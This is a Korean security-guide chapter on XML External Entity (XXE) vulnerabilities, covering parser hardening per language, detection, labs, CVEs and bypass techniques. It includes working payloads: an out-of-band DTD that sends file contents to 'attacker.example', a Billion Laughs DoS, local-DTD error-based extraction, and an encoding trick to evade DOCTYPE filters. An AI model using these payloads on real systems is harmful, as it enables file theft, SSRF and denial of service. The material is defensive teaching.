

# XML 외부 개체 (XML External Entity, XXE)

| 레벨 | 상태 | 최종 개정 | CWE |
|---|---|---|---|
| 🟡 실무 (7절은 🔴) | 🔄 개정중 | 2026-10-22 | [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-776](https://cwe.mitre.org/data/definitions/776.html) |

> **한눈에 보기**
> XML 문서는 "이 파일을 읽어서 여기 넣어라"고 파서에게 지시할 수 있다. 파서가 그 지시를 따르면 서버 파일 읽기, 내부망 요청(SSRF), 서비스 거부가 한 번에 열린다.
> 공격자는 설정 파일과 클라우드 자격증명을 읽고, 방화벽 뒤의 서비스를 두드린다.
> 막는 핵심은 하나다. **파서에서 DTD를 끄라.** 설정 한 줄이고, 거의 모든 언어에 정확한 문자열이 있다.

## 1. 원리

XML에는 DTD(Document Type Definition)라는 문법 정의 영역이 있고, 그 안에서 **개체**(entity)를 선언할 수 있다. 개체는 매크로다. `<!ENTITY name "값">`으로 선언하면 본문의 `&name;`이 그 값으로 치환된다. 문제는 값을 **외부에서** 가져오는 외부 개체다.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user><name>&xxe;</name></user>
```

파서는 `SYSTEM` 뒤의 URI를 열어 내용을 읽고 `&xxe;` 자리에 넣는다. 그 결과가 응답에 돌아오면 파일 읽기가 된다. URI가 `http://10.0.0.5:8080/admin`이면 [SSRF](03-ssrf.md)다. 신뢰 경계는 **문서가 파서에게 I/O를 지시하는 지점**에서 무너진다. 데이터여야 할 XML이 "무엇을 읽을지"를 정하는 명령이 된 것이다.



<figure>
<figcaption>그림 1. 파서는 문서가 시키는 대로 URI를 연다. 많은 파서가 이것을 기본값으로 켜 두고 있었고, 일부는 지금도 그렇다.</figcaption>
</figure>

### 유형

| 유형 | 결과를 어떻게 보는가 | 난이도 |
|---|---|---|
| 고전(in-band) | 개체 값이 응답 본문에 그대로 나온다 | 🟢 |
| SSRF | 개체 URI가 내부망·클라우드 메타데이터를 가리킨다. 응답은 안 보여도 요청은 간다 | 🟡 |
| Blind OOB | 응답에 아무것도 안 나온다. 파라미터 개체로 외부 DTD를 불러 파일 내용을 공격자 서버로 보낸다 | 🟡 |
| Error 기반 | 존재하지 않는 경로에 파일 내용을 섞어 오류 메시지로 읽는다 | 🟡 |
| DoS | Billion Laughs(내부 개체 지수 확장), 외부 DTD 무한 재귀, `/dev/random` 읽기 | 🟢 |

### 파라미터 개체와 OOB 추출

일반 개체는 본문에서만 쓸 수 있다. **파라미터 개체**(`<!ENTITY % name ...>`, 참조는 `%name;`)는 DTD 안에서 쓰며, 외부 DTD 파일을 통째로 불러올 수 있다. 응답에 아무것도 반영되지 않는 blind 상황에서 쓰는 도구다.

```xml
<!-- 요청 본문 -->
<!DOCTYPE foo [ <!ENTITY % ext SYSTEM "http://attacker.example/evil.dtd"> %ext; ]>
<foo/>
```

```xml
<!-- attacker.example/evil.dtd  (공격자 서버) -->
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.example/?d=%file;'>">
%eval;
%exfil;
```

파서는 `/etc/hostname`을 읽어 `%file;`에 넣고, 그것을 URL에 섞어 공격자 서버로 요청을 보낸다. 파일 내용이 공격자의 접속 로그에 찍힌다. 내부 DTD 안에서는 "개체 안에서 파라미터 개체 참조"가 금지되어 있어서 **외부 DTD**가 필요하다. 그래서 외부 DTD 로딩을 끄는 것이 blind XXE 방어의 핵심이 된다.

### Billion Laughs

외부 접근 없이 파서만으로 메모리를 소진시키는 공격이다.

```xml
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!-- ... lol9까지 -->
]>
<lolz>&lol9;</lolz>
```

10단계 × 10배이면 10억 개의 `lol`, 약 3GB다. 1KB 문서로 수 GB 메모리를 요구한다. DTD를 끄면 함께 막힌다.

## 2. 발생하는 코드 패턴

### Java (기본값이 위험하다)

```java
// ❌ 취약: JAXP 기본 설정은 DTD와 외부 개체를 모두 처리한다
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
Document doc = dbf.newDocumentBuilder().parse(request.getInputStream());
```

```java
// ✅ 안전: DTD 자체를 금지한다. 이 한 줄이면 XXE, Billion Laughs, 외부 DTD가 모두 막힌다
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
// DTD가 꼭 필요한 레거시라면 (차선책) 아래 네 줄
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
```

StAX(`XMLInputFactory`)는 속성 이름이 다르다.

```java
// ✅ 안전 (StAX)
XMLInputFactory xif = XMLInputFactory.newInstance();
xif.setProperty(XMLInputFactory.SUPPORT_DTD, false);
xif.setProperty("javax.xml.stream.isSupportingExternalEntities", false);
```

`SAXParserFactory`, `XMLReader`, `TransformerFactory`, `SchemaFactory`, `Unmarshaller`(JAXB), `XPathFactory`도 각각 설정이 필요하다. JAXB는 내부적으로 쓰는 `XMLReader`를 안전하게 만든 뒤 `SAXSource`로 넘겨야 한다. 정확한 조합은 [OWASP 치트시트](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)에 파서별로 정리되어 있다.

### Python

```python
# ❌ 취약: lxml 5.0 미만은 기본 파서가 외부 개체를 해석한다. 5.0부터는 기본값이
#    resolve_entities='internal'로 바뀌어 외부 개체를 읽지 않지만, True로 켜면 모든 버전에서 열린다
from lxml import etree
root = etree.fromstring(request.data)                                            # lxml < 5.0
root = etree.fromstring(request.data, etree.XMLParser(resolve_entities=True))   # 모든 버전
```

```python
# ✅ 안전 1: 파서 옵션
parser = etree.XMLParser(resolve_entities=False, no_network=True)
root = etree.fromstring(request.data, parser)

# ✅ 안전 2: defusedxml. 표준 라이브러리와 lxml 양쪽을 감싸 DTD 관련 공격을 예외로 바꾼다
import defusedxml.ElementTree as ET
root = ET.fromstring(request.data)
```

표준 라이브러리(`xml.etree`, `xml.dom.minidom`, `xml.sax`)는 expat 기반이라 외부 개체를 가져오지 않는다. 그러나 Billion Laughs는 expat 2.4.1 미만에서 막히지 않았다. 버전을 따지기보다 `defusedxml`을 쓰는 것이 단순하다.

### PHP

```php
// ❌ 취약: LIBXML_NOENT는 "개체를 치환하라"는 뜻이다. 이름이 반대로 읽힌다
$xml = simplexml_load_string($body, 'SimpleXMLElement', LIBXML_NOENT);
```

```php
// ✅ 안전: NOENT를 쓰지 않는다. PHP 8.4+/libxml 2.13+에서는 LIBXML_NO_XXE를 명시할 수 있다
$xml = simplexml_load_string($body, 'SimpleXMLElement', LIBXML_NONET);
```

`libxml_disable_entity_loader(true)`는 오랫동안 표준 처방이었다. libxml 2.9.0부터 외부 개체 치환이 기본으로 꺼졌고, PHP 8.0에서 이 함수는 사용 중단(deprecated)됐다. 단, **PHP 8 미만**을 쓰는 코드에서 이 호출을 지우면 XXE가 다시 열린다. 버전을 확인하고 지운다.

### .NET

```csharp
// ❌ 취약: 구 .NET Framework(4.5.2 미만)의 XmlDocument는 기본 리졸버가 외부 URI를 연다
var doc = new XmlDocument();
doc.LoadXml(body);
```

```csharp
// ✅ 안전: 버전과 무관하게 명시한다
var settings = new XmlReaderSettings { DtdProcessing = DtdProcessing.Prohibit, XmlResolver = null };
using var reader = XmlReader.Create(stream, settings);
var doc = new XmlDocument { XmlResolver = null };
doc.Load(reader);
```

## 3. 탐지 방법

### 3.1 코드 리뷰 / 정적 분석

파서 생성 지점을 모두 찾고, 그 옆에 안전 설정이 있는지 본다. **설정이 없는 파서 생성이 곧 발견이다.**

```bash
# Java: 팩토리 생성은 있는데 disallow-doctype-decl이 없는 파일
grep -rlE "DocumentBuilderFactory|SAXParserFactory|XMLInputFactory|TransformerFactory|SchemaFactory|XMLReaderFactory" --include='*.java' . \
  | xargs grep -L "disallow-doctype-decl\|SUPPORT_DTD\|ACCESS_EXTERNAL_DTD"
# Python
grep -rnE "lxml|etree\.fromstring|xml\.dom|xml\.sax|xmltodict|xmlrpc" --include='*.py' . | grep -v defusedxml
# PHP
grep -rnE "LIBXML_NOENT|simplexml_load|DOMDocument|xml_parse" --include='*.php' .
# .NET
grep -rnE "XmlDocument|XmlTextReader|XmlReader\.Create|XPathDocument|XslCompiledTransform" --include='*.cs' .
```

**Semgrep**: `p/java`, `p/python`, `p/csharp`, `p/php`에 XXE 룰이 들어 있다. 설정 누락을 패턴으로 잡는다. **CodeQL**: `java/xxe`, `py/xxe`. 입력에서 파서까지 흐름을 추적하고 안전 설정 유무를 함께 본다.

리뷰에서 놓치기 쉬운 것은 **XML인 줄 모르는 XML**이다. 아래 3.2절의 숨은 입력 목록을 코드에서도 찾는다. 파서를 직접 부르지 않고 라이브러리(Apache POI, SAML 라이브러리, SOAP 프레임워크)가 부르는 경우가 많으므로, 그 라이브러리의 버전과 XXE 이력을 확인한다.

### 3.2 동적 테스트

**1단계: XML을 받는 곳 찾기.** `Content-Type: application/xml`, `text/xml`, SOAP 엔드포인트가 분명한 경우다. 분명하지 않은 곳이 더 많다.

| 숨은 XML 입력 | 왜 XML인가 |
|---|---|
| SVG 업로드 (프로필 이미지, 아이콘) | SVG는 XML이다. 썸네일 생성기·변환기가 파싱한다 |
| DOCX, XLSX, PPTX, ODT | ZIP 안의 XML 묶음. 미리보기·텍스트 추출·import 기능이 파싱한다 |
| SOAP, WSDL | 본문이 XML. 구 시스템 연동 API에 많다 |
| SAML 응답·메타데이터 | 로그인에 XML 서명·파싱이 들어간다 |
| 설정 가져오기(import), 백업 복원 | XML 포맷인 경우 |

**2단계: 무해한 개체로 DTD 처리 여부 확인.**

```xml
<!DOCTYPE t [ <!ENTITY probe "xxe-probe-42"> ]><root>&probe;</root>
```

응답에 `xxe-probe-42`가 나오면 DTD가 켜져 있다. 오류 메시지에 "DOCTYPE is disallowed"가 나오면 막힌 것이다.

**3단계: 외부 개체 확인.** 응답에 반영되는 필드에 `SYSTEM "file:///etc/hostname"`(Linux) 또는 `file:///C:/Windows/win.ini`(Windows). 반영되는 필드가 없으면 **OOB**로 간다. `SYSTEM "http://<collaborator>/"`로 요청이 오는지 본다. 요청이 오면 blind XXE와 SSRF가 동시에 확인된 것이다.

**4단계: blind면 파라미터 개체 + 외부 DTD**(1절)로 파일 내용을 받는다. 에러 기반도 시도한다.

자동화: Burp Scanner는 1~3단계와 OOB를 Collaborator로 자동 확인한다. 숨은 XML 입력(SVG, DOCX)을 만들어 올리는 것은 사람이 한다.

## 4. 실습 🧪

### 4.1 로컬 최소 재현 (Python + lxml, 5분)

```python
# xxe_demo.py  (실습용)
from lxml import etree

doc = b"""<?xml version="1.0"?>
<!DOCTYPE t [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<t>&xxe;</t>"""

loose = etree.XMLParser(resolve_entities=True)       # lxml 5.0 미만은 기본 파서가 이와 같다
print("loose   :", etree.fromstring(doc, loose).text)                            # ❌ 호스트명이 찍힌다
safe = etree.XMLParser(resolve_entities=False, no_network=True)
print("hardened:", etree.fromstring(doc, safe).text)                             # ✅ None
```

```bash
pip install lxml && python3 xxe_demo.py
```

같은 문서를 `defusedxml.ElementTree.fromstring`에 넣으면 `EntitiesForbidden` 예외가 난다. 세 결과를 비교하면 "기본값이 위험한 파서"와 "설정"과 "래퍼"의 차이가 보인다.

### 4.2 공개 실습 환경

[PortSwigger Web Security Academy: XXE injection](https://portswigger.net/web-security/xxe)의 랩을 순서대로 푼다.

| 순서 | 랩 | 익히는 것 |
|---|---|---|
| 1 | Exploiting XXE using external entities to retrieve files | 고전 파일 읽기 |
| 2 | Exploiting XXE to perform SSRF attacks | 클라우드 메타데이터 |
| 3 | Blind XXE with out-of-band interaction | OOB 확인 |
| 4 | Blind XXE with out-of-band interaction via XML parameter entities | 일반 개체가 막혔을 때 |
| 5 | Exploiting blind XXE to exfiltrate data using a malicious external DTD | 1절의 evil.dtd |
| 6 | Exploiting blind XXE to retrieve data via error messages | 에러 기반 |
| 7 | Exploiting XInclude to retrieve files | DOCTYPE을 못 쓰는 위치 |
| 8 | Exploiting XXE via image file upload | SVG 업로드 |
| 9 | Exploiting XXE to retrieve data by repurposing a local DTD | 외부 접속이 막혔을 때 🔴 |

## 5. 익스플로잇 검증

| 단계 | 확인 | 심각도에 미치는 영향 |
|---|---|---|
| 1 | 내부 개체가 치환된다 (DTD 처리 ON) | 설정 결함. DoS 가능성 |
| 2 | `/etc/hostname` 같은 무해 파일이 읽히거나 OOB 요청이 온다 | XXE 확인. 보통 High |
| 3 | 애플리케이션 설정·키·클라우드 자격증명이 읽힌다 | 기밀성 침해. High~Critical |
| 4 | 내부 서비스(메타데이터, 관리 콘솔)에 요청이 닿는다 | SSRF 체인. 도달 범위에 따라 Critical |

2단계까지가 보통 충분하다. 3단계는 "읽힌다"의 증명을 위해 **파일 첫 줄 정도**만 가져오고, 자격증명 전체를 보고서에 싣지 않는다. 4단계는 [SSRF 장](03-ssrf.md)의 검증 절차와 허가 범위를 따른다.

## 6. 방어

| 계층 | 조치 | 효과 |
|---|---|---|
| 코드 | **DTD 금지** (`disallow-doctype-decl`, `DtdProcessing.Prohibit`, `resolve_entities=False`, `LIBXML_NOENT` 미사용) | 근본 제거. XXE·OOB·Billion Laughs 모두 |
| 코드 | DTD가 필요하면 외부 일반·파라미터 개체와 외부 DTD 로딩을 각각 끔 | 차선책 |
| 코드 | XInclude 비활성화 (`setXIncludeAware(false)`) | DTD 없이 되는 변형 차단 |
| 코드 | XML 입력 자체를 JSON으로 교체 | 공격 표면 제거 |
| 프레임워크 | `defusedxml`, Java `XMLConstants.FEATURE_SECURE_PROCESSING` + `ACCESS_EXTERNAL_DTD=""`·`ACCESS_EXTERNAL_SCHEMA=""` | 기본값으로 차단 |
| 프레임워크 | XML을 다루는 라이브러리(POI, SAML, SOAP) 최신 버전 유지 | 알려진 XXE 제거 |
| 인프라 | 웹 서버의 아웃바운드 차단 (OOB·SSRF 경로 제거), 클라우드 메타데이터 IMDSv2 | 피해 범위 축소 |
| 탐지 | 요청 본문의 `<!DOCTYPE`, `<!ENTITY`, `SYSTEM` 알림. 파서 오류 로그 | 사후 대응 |

**하지 말아야 할 것**

- 입력에서 `<!DOCTYPE` 문자열을 지우는 것. 인코딩(UTF-16, UTF-7)으로 우회된다. 파서 설정으로 막아야 한다.
- "우리는 XML API가 없다"는 판단. 3.2절의 숨은 입력을 확인하기 전까지는 모른다.
- 라이브러리 기본값 신뢰. Java JAXP는 지금도 기본값이 위험하다.

## 7. 우회 기법 🔴

| 방어 | 우회 |
|---|---|
| `<!DOCTYPE` 문자열 필터 | UTF-16·UTF-7 인코딩 문서(`<?xml version="1.0" encoding="UTF-16"?>`), 대소문자 혼합 |
| DOCTYPE 금지 (파서 설정) | XInclude: `<xi:include xmlns:xi="http://www.w3.org/2001/XInclude" href="file:///etc/hostname" parse="text"/>` |
| XML 엔드포인트 없음 | SVG·DOCX 업로드, `Content-Type`을 `application/xml`로 바꿔 JSON 엔드포인트에 전송 |
| 외부 일반 개체만 차단 | 파라미터 개체 `%` |
| 아웃바운드 차단 (외부 DTD 불가) | 시스템에 있는 **로컬 DTD**를 불러와 그 안의 파라미터 개체를 재정의 (Arseniy Sharoglazov, 2018). 에러 기반과 결합 |
| 응답 미반영 + 아웃바운드 차단 | 에러 기반: 존재하지 않는 경로에 파일 내용을 섞어 파서 오류 메시지로 읽기 |

### 7.1 로컬 DTD 재사용: 아웃바운드가 막혔을 때

1절의 blind OOB는 공격자 서버에서 DTD를 받아온다. 아웃바운드가 막힌 서버에서는 그 한 단계가 불가능하다. Arseniy Sharoglazov가 2018년 "Exploiting XXE with local DTD files"에서 보인 기법은 **서버 디스크에 이미 있는 DTD 파일**을 그 자리에 쓴다. XML 규격의 두 규칙이 합쳐진 결과다.

1. **내부 서브셋에서는 파라미터 개체 참조를 마크업 선언 안에 둘 수 없다**(XML 1.0 WFC "PEs in Internal Subset"). 그래서 `<!ENTITY % eval "<!ENTITY &#x25; exfil …%file;…>">`를 요청 본문에 직접 넣으면 파서가 거부한다. JDK 내장 파서의 오류 문구는 "The parameter entity reference "%file;" cannot occur within markup in the internal subset of the DTD"이고, libxml2는 "PEReferences forbidden in internal subset"이다. 이 제한이 **외부 서브셋(외부 DTD 파일)** 안에서는 없다. 1절에서 외부 DTD가 필요했던 이유다.
2. **같은 이름의 개체가 두 번 선언되면 첫 선언이 유효하다**(XML 1.0 4.2절). 내부 서브셋이 외부 DTD보다 먼저 읽히므로, 내부 서브셋의 선언이 외부 DTD의 같은 이름 선언을 덮는다.

둘을 합치면, 로컬 DTD 파일 안에 "파라미터 개체를 선언하고 곧바로 참조하는" 자리만 있으면 된다. 구조는 다음과 같다.

```xml
<!DOCTYPE message [
  <!ENTITY % local_dtd SYSTEM "file:///서버에_있는/어떤.dtd">   <!-- ① 디스크의 DTD. 네트워크 불필요 -->
  <!ENTITY % 그_DTD가_참조하는_개체이름 '                      <!-- ② 같은 이름을 먼저 선언해 덮어쓴다 -->
    <!ENTITY &#x25; file SYSTEM "file:///읽을/파일">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///없는경로/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
  '>
  %local_dtd;                                                   <!-- ③ 외부 DTD를 읽는다. 그 안의 %개체이름; 이 ②로 펼쳐진다 -->
]>
<message>x</message>
```

③에서 외부 DTD의 `%개체이름;` 참조를 만나는 순간, 파서는 **외부 서브셋 문맥**에 있고, 펼쳐진 텍스트 ②는 거기서 합법이다. ②의 `&#x25;`는 `%`의 문자 참조다. 선언 시점에 `%`로 바뀌어 저장되고, `%eval;`이 참조될 때 비로소 `%file;`이 펼쳐진다. 결과를 밖으로 보낼 수 없으므로 에러 기반과 결합한다. 존재하지 않는 경로 뒤에 파일 내용을 붙여 열게 하면, 파서 오류 메시지에 그 경로가 그대로 찍힌다. JDK 내장 파서로 실습 환경에서 재현하면 `FileNotFoundException: /없는경로/<파일 첫 줄>`이 나온다.

원 연구의 예는 GNOME 도움말 패키지의 `/usr/share/yelp/dtd/docbookx.dtd`와 그 안의 `ISOamso` 개체다. 어떤 DTD가 있는지는 OS와 설치된 패키지에 달렸고, Java라면 jar 안의 DTD(`jar:file:///…/jsp-api.jar!/…/jspxml.dtd`)도 후보다. GoSecure의 [dtd-finder](https://github.com/GoSecure/dtd-finder)가 알려진 경로와 개체 이름 목록을 관리한다. 파서 의존성도 있다. 같은 문서를 libxml2 2.14(lxml 6.1)에 넣으면 내부 서브셋에서 선언된 개체의 펼침에 내부 서브셋 규칙을 적용해 "PEReferences forbidden in internal subset"으로 거부했다. 따라서 "로컬 DTD가 있다"가 아니라 **"이 파서에서 이 DTD로 펼쳐진다"**까지가 검증이다.

### 7.2 블라인드 OOB: 파라미터 개체 구조를 단계로

1절의 두 파일을 파서가 처리하는 순서대로 다시 읽는다. 각 줄이 왜 그 자리에 있어야 하는지가 핵심이다.

| 단계 | 어디서 | 선언·참조 | 왜 |
|---|---|---|---|
| 1 | 요청 본문(내부 서브셋) | `<!ENTITY % ext SYSTEM "http://공격자/evil.dtd">` | 외부 DTD를 가리키는 파라미터 개체. 선언만으로는 아무 일도 없다 |
| 2 | 요청 본문 | `%ext;` | 내부 서브셋의 **최상위**에서는 파라미터 개체 참조가 허용된다. 파서가 evil.dtd를 받아 그 자리에 펼친다. 아웃바운드 1회 |
| 3 | evil.dtd | `<!ENTITY % file SYSTEM "file:///etc/hostname">` | 읽을 파일. 값은 아직 읽지 않는다 |
| 4 | evil.dtd | `<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://공격자/?d=%file;'>">` | 선언을 만드는 선언. `&#x25;`는 `%`로 바뀌어 저장되고, `%file;`은 외부 서브셋이므로 **이 선언이 처리될 때** 파일 내용으로 펼쳐진다 |
| 5 | evil.dtd | `%eval;` | 4의 텍스트가 선언으로 해석된다. 이제 `exfil`의 URI 안에 파일 내용이 들어 있다 |
| 6 | evil.dtd | `%exfil;` | 그 URI를 연다. 아웃바운드 2회. 공격자 로그에 파일 내용이 남는다 |

이 구조에서 자주 틀리는 세 가지. 첫째, 4를 `%`로 쓰면 그 선언이 처리되는 시점에 `%exfil`을 펼치려 해서 실패한다. 반드시 문자 참조 `&#x25;`다. 둘째, 파일 내용이 URL에 들어가므로 **줄바꿈·공백·`#`이 있으면 URI가 깨진다**. `/etc/passwd` 대신 `/etc/hostname`처럼 한 줄짜리를 고르거나, 6을 `file:///없는경로/%file;`로 바꾼 에러 기반을 쓴다. 에러 기반은 아웃바운드가 없어도 되고(7.1과 결합), 오류 메시지가 응답에 반영될 때만 된다. 셋째, 파서마다 실패를 다루는 방식이 다르다. libxml2는 6에서 URI를 못 열면 `WARNING Can't resolve URI: file:///없는경로/<파일 내용>`을 오류 로그에만 남기고 파싱은 정상 종료한다. 응답에 오류가 안 보인다고 "안 된다"가 아니다. 서버 로그나 OOB 채널을 봐야 한다.

### 7.3 인코딩으로 `<!DOCTYPE` 필터 넘기기

요청 본문에서 `<!DOCTYPE` 문자열을 지우거나 차단하는 WAF·입력 필터는 **바이트**를 본다. XML 파서는 바이트를 보기 전에 **인코딩을 먼저 정한다**. XML 1.0 부록 F는 파서가 문서의 첫 바이트(BOM `FF FE`·`FE FF`, 또는 `3C 00 3F 00` 같은 `<?xml`의 패턴)로 인코딩을 자동 감지하도록 한다. 같은 문서를 UTF-16으로 보내면 `<!DOCTYPE`는 `3C 00 21 00 44 00 …`이 되고, ASCII 부분 문자열 검색은 아무것도 찾지 못한다. 파서는 정상적으로 읽는다. lxml 6.1로 확인하면 다음과 같다.

```python
doc = '<?xml version="1.0" encoding="UTF-16"?><!DOCTYPE a [<!ENTITY x "expanded">]><a>&x;</a>'.encode("utf-16")
b"<!DOCTYPE" in doc                    # False  ← 필터가 보는 것
etree.fromstring(doc, parser).text     # 'expanded' ← 파서가 하는 것 (resolve_entities=True)
```

변형은 세 가지다. (1) 선언 없이 BOM만, 또는 BOM 없이 바이트 패턴만으로 UTF-16을 알리는 문서. 둘 다 규격상 감지 대상이다. (2) **외부 DTD의 인코딩**. 외부 개체는 각자 텍스트 선언(`<?xml encoding=…?>`)을 가지므로, 본문은 UTF-8로 깨끗하게 두고 DTD 파일만 다른 인코딩으로 둘 수 있다. 본문만 검사하는 필터는 DTD를 못 본다. (3) UTF-7(`+ADw-!DOCTYPE`). 과거 .NET의 `XmlTextReader` 같은 일부 파서가 지원했고, 현재 주류 파서는 대부분 지원하지 않으므로 대상 파서를 확인한 뒤에만 시도한다. 명령줄에서는 `iconv -f UTF-8 -t UTF-16 doc.xml > doc16.xml`로 만든다.

결론은 6절과 같다. 문자열 필터는 방어가 아니다. 파서 설정으로 DTD를 끄면 인코딩이 무엇이든 `DOCTYPE`에서 파싱이 멈춘다. 점검 보고서에 "`<!DOCTYPE` 필터로 완화함"이라고 적힌 조치는 이 절의 변형 하나로 재검증한다.

## 8. 실제 CVE 사례

| CVE | 제품 | 핵심 | 패치 |
|---|---|---|---|
| [CVE-2014-3660](https://nvd.nist.gov/vuln/detail/CVE-2014-3660) | libxml2 (2.9.2 미만) | 개체 치환을 꺼도 개체 확장을 막지 못함. Billion Laughs 변형으로 CPU 소진 | [libxml2 2.9.2](https://gitlab.gnome.org/GNOME/libxml2) |
| [CVE-2019-12415](https://nvd.nist.gov/vuln/detail/CVE-2019-12415) | Apache POI (4.1.1 미만) | `XSSFExportToXml`이 조작된 XLSX 안의 XML을 안전 설정 없이 파싱. 숨은 XML 입력의 전형 | [POI 보안 공지](https://poi.apache.org/security.html) |
| [CVE-2019-3773](https://nvd.nist.gov/vuln/detail/CVE-2019-3773) | Spring Web Services (2.4.3·3.0.4 이하) | 신뢰할 수 없는 출처의 XML을 받을 때 XXE. SOAP 프레임워크 자체의 결함 | [Spring 권고](https://spring.io/security/cve-2019-3773) |
| [CVE-2021-23926](https://nvd.nist.gov/vuln/detail/CVE-2021-23926) | Apache XMLBeans (2.6.0 이하) | 내부 파서가 XXE 방어 속성을 설정하지 않음. POI 등 상위 라이브러리에 전파 | [XMLBeans 3.0.0](https://xmlbeans.apache.org/) |

**libxml2 (CVE-2014-3660) 에서 배울 것**: "개체 치환을 껐으니 안전하다"가 틀렸다. 치환은 꺼졌지만 파서가 개체 크기를 계산하는 과정에서 확장이 일어났다. 공개 분석 기준으로, 패치는 치환 여부와 무관하게 개체 확장 크기를 세어 한도를 넘으면 중단하도록 검사 로직을 보강했다. DTD 처리를 통째로 끄는 것이 개별 옵션 조합보다 안전한 이유다. PHP, Python lxml, Ruby Nokogiri가 모두 libxml2 위에 있으므로 영향 범위가 넓었다.

**Apache POI (CVE-2019-12415) 에서 배울 것**: 권고문 기준으로, 패치는 해당 도구의 파서 생성에 안전 설정을 적용했다. 애플리케이션은 "엑셀 파일을 받을 뿐"이었고 XML 파서를 호출한 적이 없다. 3.2절 숨은 입력 표의 DOCX·XLSX 행이 실제로 어떻게 터지는지 보여 준다.

**XMLBeans (CVE-2021-23926) 에서 배울 것**: 권고문 기준으로, 3.0.0에서 파서 생성 시 외부 개체·DTD 관련 속성을 안전하게 설정하도록 바꿨다. 라이브러리의 라이브러리에서 난 결함이다. 의존성 트리 깊은 곳의 XML 파서까지가 공격 표면이다.

## 9. 체크리스트

**코드 리뷰할 때**
- [ ] XML 파서 생성 지점마다 DTD 금지 설정이 있는가? (Java는 팩토리마다 따로)
- [ ] XInclude가 꺼져 있는가?
- [ ] SVG·오피스 문서·SAML·SOAP·RSS를 다루는 라이브러리의 버전과 XXE 이력을 확인했는가?
- [ ] PHP 8 미만이라면 `libxml_disable_entity_loader(true)`가 남아 있는가?

**테스트할 때**
- [ ] 3.2절 숨은 입력 표를 모두 확인했는가?
- [ ] 내부 개체 프로브 → 외부 개체 → OOB 순서로 시도했는가?
- [ ] JSON 엔드포인트에 `Content-Type: application/xml`을 보내 봤는가?
- [ ] 파일 업로드에 SVG를 올려 봤는가?

**배포 전**
- [ ] 웹 서버의 아웃바운드가 필요한 목적지로만 제한되는가?
- [ ] SAST에 XXE 룰이 켜져 있고 파서 생성 지점을 모두 잡는가?

## 10. 더 읽기

- [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html) · [CWE-776: Billion Laughs](https://cwe.mitre.org/data/definitions/776.html)
- [OWASP XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html) · 언어·파서별 정확한 설정 문자열. 이 장의 2절은 여기서 가장 흔한 것만 뽑았다
- [Python `xml` 문서: XML vulnerabilities](https://docs.python.org/3/library/xml.html#xml-vulnerabilities) · 모듈별 취약 여부 표와 defusedxml 안내
- [PHP `libxml_disable_entity_loader` 문서](https://www.php.net/manual/en/function.libxml-disable-entity-loader.php) · 사용 중단 사유
- [Microsoft, CA3075: Insecure DTD processing](https://learn.microsoft.com/dotnet/fundamentals/code-analysis/quality-rules/ca3075) · .NET 분석기 규칙과 안전한 코드
- Arseniy Sharoglazov, "Exploiting XXE with local DTD files" (2018) · 아웃바운드가 막힌 환경의 우회
- [GoSecure dtd-finder](https://github.com/GoSecure/dtd-finder) · 알려진 로컬 DTD 경로와 재정의 가능한 개체 이름 목록 (7.1절)
- [XML 1.0 (Fifth Edition)](https://www.w3.org/TR/xml/) · 2.8절 WFC "PEs in Internal Subset", 4.2절 첫 선언 우선, 부록 F 인코딩 자동 감지
- [PortSwigger Web Security Academy: XXE injection](https://portswigger.net/web-security/xxe) · 4.2절 랩

## 변경 이력

| 날짜 | 변경 | 기여자 |
|---|---|---|
| 2026-10-21 | 초안(뼈대) 작성 | @anthonynoh5202 |
| 2026-10-22 | 10섹션 전체 작성. 언어별 안전 설정 4종, 숨은 XML 입력 표, CVE 4건, lxml 재현 코드 추가 | @anthonynoh5202 |
| 2026-10-22 | 기술 검증: CVE 4건 레코드 대조(전부 실존; CVE-2019-3773·CVE-2021-23926 영향 버전을 레코드 기준으로 수정). lxml 5.0부터 기본 resolve_entities='internal'로 바뀐 점을 반영해 취약 예제·재현 코드 수정(lxml 6.1·defusedxml 실행 확인). Java JAXP/StAX 설정 문자열 실행 확인 | 검증팀 |
| 2026-10-22 | 독자 테스트 반영: 7절에 로컬 DTD 재사용 원리(JDK 파서·libxml2 실행 확인), 블라인드 OOB 파라미터 개체 단계표, UTF-16 인코딩 우회 원리(lxml 실행 확인) 추가 | @anthonynoh5202 |
